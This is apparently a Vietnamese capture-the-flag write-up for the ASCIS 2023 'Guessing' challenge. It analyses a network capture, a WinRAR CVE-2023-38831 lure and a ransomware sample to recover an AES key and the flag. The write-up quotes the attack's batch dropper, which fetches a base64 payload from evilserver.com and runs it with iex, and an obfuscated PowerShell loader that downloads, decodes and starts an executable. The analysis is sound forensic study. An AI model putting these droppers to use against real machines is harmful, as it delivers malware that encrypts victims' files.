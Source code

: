 # ASCIS2023_Guessing

> Description: I received an email from an unidentified sender who described an intriguing world. Intrigued by their narrative, I followed the link in the email, downloaded a file, and attempted to open it. To my surprise, my essential documents were suddenly encrypted. I'm now in need of assistance to recover them.

## [0]. Digital Forensics

- Giải nén file.zip được challenges cung cấp ta nhận được một file capture lưu lượng mạng `Pancham.pcapng` và một file ảnh `SensitiveData.png` bị lỗi

- Sử dụng `wireshark` để mở file pcap thì thấy các package lưu lượng mạng `HTTP` chứa các file dữ liệu như `.zip, .png, .exe` nên mình export ra để tiếp tục phân tích.

![1.png](./images/1.png)

- Trong các file có được xuất hiện một file nén `PanCham.zip` và khi tiếp tục giải nén thì được các file sau:

![2.png](./images/2.png)

- Từ các file trên ta dễ dàng nhận ra đây là CVE winrar khá nooit tiếng gần đây - `CVE-2023-38831`. Phân tích nội dung file `Pancham.pdf .cmd`:

```bat
@echo off
setlocal
set "ServerURL=http://evilserver.com:8080/useless.png"
for /f "delims=" %%i in ('curl -s -X GET "%ServerURL%"') do set response=%%i
powershell "[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String('%response%')) | iex"
Pancham.pdf
endlocal
```

- File này sẽ tải xuống file ảnh `useless.png`, decode ra và iex để thực thi. Đồng thời ngay sau đó sẽ pop up file `Pancham.pdf` để đánh lừa người dùng.

- Decode nội dung file `useless.png` và ta có được 1 script powershell `encoded_ps.ps1` bị obfuscate:

![3.png](./images/3.png)

- Mình dùng `PSDecode` để deobfuscate (https://github.com/R3MRUM/PSDecode):

```ps1
PSDecode -dump -beautify -verbose .\encoded_ps.ps1
```

![4.png](./images/4.png)

```ps1
  SV 4taH  ( [tyPe]'bITconvERtER') ;  .'SeT-IteM'  vaRIABLE:4jb7 ([tYpe]'SYSTEm.Io.fIle' );  .'Invoke-WebRequest' 'http://evilserver.com:8080/PanCham.exe' -OutFile "$env:TEMP\panpan.exe"
${FiLE1_b} =  ( .Dir  vARIaBle:4JB7  ).VaLue::'ReadAllBytes'.Invoke("$env:TEMP\panpan.exe")
${kEy_B} =   ( .DIR ("VaRIabLE:4jB7") ).value::'ReadAllBytes'.Invoke(("$env:USERPROFILE\Documents\Finance "+'Report'))
for(${I}=0; ${i} -lt 0x300 ; ${I}++)
{
    if((${filE1_B}[${I}] -eq 0x2e) -and (${fILe1_b}[${I}+1] -eq 0x74)-and (${FIlE1_B}[${i}+2] -eq 0x65)-and (${filE1_B}[${i}+3] -eq 0x78)-and (${fILE1_b}[${i}+4] -eq 0x74)){
        ${OFf} =   (&'chIldITem'  vARiABLE:4taH).VAluE::"T`oiNt`32"([byte[]](${fILe1_b}[${i}+0x14],${filE1_b}[${I}+0x15],${fIle1_B}[${I}+0x16],${FILE1_B}[${i}+0x17]),0)
        ${SiZe} =   $4taH::"T`oIN`T32"([byte[]](${FIlE1_b}[${I}+0x10],${File1_b}[${i}+0x11],${FILE1_B}[${I}+0x12],${fILE1_b}[${i}+0x13]),0)
        ${sIZe} = ${SIZe} / 2
        break
    }
}
for(${I}=${oFf}; ${i} -lt ${oFf} + ${sizE} ; ${I}++){
    ${FIlE1_b}[${I}] = ${file1_B}[${I}] -bxor ${key_b}[${i} % ${KeY_b}.CoUNt]
}
 (Gi  vaRiAble:4Jb7  ).vaLue::'WriteAllBytes'.Invoke("$env:TEMP\panpan.exe", ${fIle1_b})
.'Start-Process' "$env:TEMP\panpan.exe"
```

- Script powershell này thực hiện tải xuống chương trình `PanCham.exe` sau đó đổi tên và lưu tại `$env:TEMP\panpan.exe`, tiếp theo là mở file `$env:USERPROFILE\Documents\Finance Report` và sử dụng nội dung làm key.

  - Mảng byte thứ nhất - file `panpan.exe`: gán với nội dung của file `panpan.exe` dưới dạng một mảng các byte.
  - Mảng byte thứ hai - file `Finance Report`: tạo ra từ nội dung của file có đường dẫn `"$env:USERPROFILE\Documents\Finance Report"` dưới dạng một mảng các byte. Đây là một khóa sẽ được sử dụng để giải mã một phần của file `panpan.exe`.
  - Vòng lặp để tìm chuỗi byte `0x2e 0x74 0x65 0x78 0x74` - tương ứng với phần `.text`, Nếu chuỗi này được tìm thấy, offset (`${OFf}`) và kích thước (`${SiZe}`) của phần cần giải mã được lấy ra. Sau đó, vòng lặp kết thúc với lệnh `break`.
    ![5.png](./images/5.png)
  - Đối chiếu với mã hex trong `HxD` thì `${OFf}` = 0x400 = 1024 và `${SiZe}` = 0xf600/2 = 31488.
  - Vòng lặp thứ hai mục đích là giải mã một phần của file `panpan.exe` bằng phép XOR.
    - Vòng lặp chạy từ offset `${OFf}` (được tìm thấy trong vòng lặp trước) đến offset cộng với kích thước `${sizE}`.
    - Mỗi byte của file `panpan.exe` tại vị trí `${I}` được giải mã bằng phép XOR (`-bxor`) với byte tương ứng từ mảng `${kEy_b}` tại vị trí `${i} % ${KeY_b}.CoUNt`.

- Vấn đề ở đây là chúng ta không có file `"$env:USERPROFILE\Documents\Finance Report"`, mình đã thử với header của các file thu được từ file `pcapng` như `".pdf, .bat, .png"` nhưng không đúng nên mình bỏ hướng này.

- Tuy nhiên khi mình load `panpan.exe` vào `PEbear` thì thấy 5 byte đầu của phần entry point = 0x00 (điều này là rất khả nghi vì theo nguyên lí thì A xor A = 0) và mình cũng so sánh 5 byte đầu của entry point này với các file PE-64 bit khác.

![6.png](./images/6.png)

- 5 byte đầu tiên của phần entry point ở các file PE-64 bit khác = `48 83 EC 28 E8`.

![7.png](./images/7.png)

- Mình lấy khoảng 0x30 byte bắt đầu từ entry point của `panpan.exe` để XOR với 0x30 byte tương ứng của file PE-64bit mẫu `48 83 EC 28 E8 F7 04 00 00 48 83 C4 28 E9 72 FE FF FF CC CC 40 53 48 83 EC 20 48 8B D9 33 C9 FF 15 BB 56 01 00 48 8B CB FF 15 AA 56 01 00 FF 15` thì được kết quả sau:

![8.png](./images/8.png)

- Mình thấy chuỗi byte `\x48\x83\xec\x28\xe8` lặp lại rất nhiều lần nên đoán rằng đây có thể là key XOR nên viết script sau:

```python
with open('PanCham.exe', 'rb') as f:
    fileb = f.read()

key = b"\x48\x83\xec\x28\xe8"
offset = 1024
size = 31488

with open("final.exe", "wb") as f:
    for i in range(len(fileb)):
        if i in range(offset, offset + size):
            f.write((fileb[i] ^ key[i % len(key)]).to_bytes(1, byteorder='big'))
        else:
            f.write(fileb[i].to_bytes(1, byteorder='big'))
```

- Kết quả là load chương trình vào IDA mà không bị lỗi, tiếp theo sẽ là phần reverse lại chương trình.

![9.png](./images/9.png)

## [1]. Reverse Engineering

- Luồng thực thi cơ bản của chương trình như sau:

  - `1.` GET data từ root của evilserver (http://evilserver.com:8080), sau đó dùng 1 hàm để decode base64 (Data này dễ dàng thấy trong tcp stream 7).
  - `2.` XOR Decoded Data ở trên với 8 bytes lấy từ file `%ProgramFiles%\\Windows NT\\version.txt`.
  - `3.` Dùng kết quả xor này, sẽ dùng để tạo key, iv,... sau đó encrypt ảnh `SensitiveData.png` lại.

- Vì không có file `version.txt`, ta buộc phải tự tìm lại key.

  - Bắt đầu từ hàm `CryptImportKey`, như đã nói ở bước 3 thì kết quả của thuật toán XOR được dùng làm đối số thứ hai cho hàm này.
  - Hàm `CryptImportKey` sẽ phải khởi tạo `PUBLICKEYSTRUC BLOB` header trước, xong mới đến các thông tin khác.
    - https://learn.microsoft.com/en-us/windows/win32/api/wincrypt/nf-wincrypt-cryptimportkey
    - https://learn.microsoft.com/en-us/windows/win32/api/wincrypt/ns-wincrypt-publickeystruc
  - Dựa vào BLOB, mình sẽ khôi phục lại key (đối số thứ hai `pbData`) như này:
    ```c
        typedef struct _PUBLICKEYSTRUC {
        BYTE   bType;
        BYTE   bVersion;
        WORD   reserved;
        ALG_ID aiKeyAlg;
        } BLOBHEADER, PUBLICKEYSTRUC;
    ```
    - Đầu tiên là 1 byte `bType`. Theo tài liệu của microsoft, key blob type có 8 loại nên mình bruteforce vì không biết key là loại nào.
    - Thứ hai là 1 byte `bVersion`, mà theo mình đọc thì nó thường được set = 0x02.
      ![10.png](./images/10.png)
    - Thứ ba là 2 bytes reversed, theo tài liệu của microsoft thì `must be set to zero`, vậy là 0x0000.
    - Cuối cùng là 4 bytes `ALG_ID` lưu dưới dạng little endian, như đã nói trên thì phía sau hàm `CryptImportKey` mình thấy có hàm `CryptSetKeyParam` khởi tạo các giá trị như `cipher mode, padding mode, iv,...` => Từ đó mình đoán rằng mã hóa này là `AES`, nhưng key length không rõ, nên mình sẽ thử `ALG_ID` của tất cả các loại length AES.

- Mình brute thử key và trong quá trình brute mình để ý toàn bộ key đều là ASCII hết:

```python
import base64

dec64 = base64.b64decode('XUxDTFUkT1V1TkNM2ExLZuoOt1hfQUB427Hr9Mk8GZkQ0vT2nMDIwS3/zR+A+XUhLfQS8kz7p6PcYej/')
dec64 = dec64[:8]
keytypels = [b'\x0C', b'\x09', b'\x08', b'\x07', b'\x06', b'\x0A', b'\x01', b'\x0B']

```

![a11.png](./images/a11.png)

- Từ đó mình rút ra type sẽ là `PLAINTEXTKEYBLOB`, tức byte đầu = 0x08.

- Rút ngắn phạm vi :v, vì là ASCII hết nên mình in thẳng char và được 4 key còn lại như này:

![a12.png](./images/a12.png)

- Key đầu hơi hơi có ý nghĩa, hợp lý hóa hơn thì nó là key tương ứng với ALG_ID của AES_256, đúng ý mình. Mình sẽ thử với xorkey này luôn.

- Sau khi xor mình được pbData mới sẽ là: `0802000010660000200000009d0e0433bf40f4141a030f2d8effa8b88c7e56cc459cb7bad982879478b18e53c5bb3a7478ba51be09b9e8f6892fabb3`.

  - > Mình tìm hiểu cả ngày cũng không hiểu đoạn thừa 20000000 sau blob là cái gì, nhưng nghĩ làm gì có key nào bắt đầu đầy 00 00 thế kia nên mình bỏ qua luôn.

- Dựa vào dòng 47 trong main, ta lấy `IV là 16 bytes cuối pbData`, còn `key` thì như nói trên mình skip đoạn `20000000` và lấy 32 bytes (AES-256), vừa hay là nó vừa khít length của pbData khai báo trong hàm `CryptImportKey`. Decrypt với iv và key như vậy, mình khôi phục lại được ảnh và lấy flag:
  - `IV`: `c5bb3a7478ba51be09b9e8f6892fabb3`.
  - `key`: `9d0e0433bf40f4141a030f2d8effa8b88c7e56cc459cb7bad982879478b18e53`.

![13.png](./images/13.png)

- FLAG: `ASCIS{What?_PANCHAM_1s_3v0lving!}`.

## [2]. References

- https://github.com/NVex0/uWU/blob/main/ASCIS_2023/Quals/readme.md
